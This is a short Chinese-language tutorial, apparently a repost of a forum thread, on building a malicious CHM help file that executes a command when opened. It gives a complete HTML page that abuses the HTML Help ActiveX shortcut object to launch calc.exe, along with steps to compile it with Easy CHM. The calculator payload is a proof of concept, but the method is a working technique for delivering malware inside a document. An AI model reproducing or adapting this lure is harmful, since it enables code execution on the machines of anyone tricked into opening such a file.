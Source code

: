 # 恶意chm文件生成

恶意chm文件生成，打开则执行任意命令。  

微软自己的`HTML Help Workshop`官方下载地址已经404了，所以下载安装`Easy chm`，随便搜一个下载，装到虚拟机里。  

准备test.html，放在一个文件夹里  
```html
<html>

<head>
    <title>test</title>
</head>

<body>
    <OBJECT id=x classid="clsid:adb880a6-d8ff-11cf-9377-00aa003b7a11" width=1 height=1>
        <PARAM name="Command" value="ShortCut">
        <PARAM name="Button" value="Bitmap::shortcut">
        <PARAM name="Item1" value=",calc.exe">
        <PARAM name="Item2" value="273,1,1">
    </OBJECT>

    <SCRIPT>
        x.Click();
    </SCRIPT>
</body>

</html>
```

运行Easy CHM，新建项目，打开准备好的文件夹，编译->生成CHM 即可  

打开新生成的chm文件，计算器就会被打开。  


原链接: https://bbs.pediy.com/thread-267038.htm  


2021/10/18  
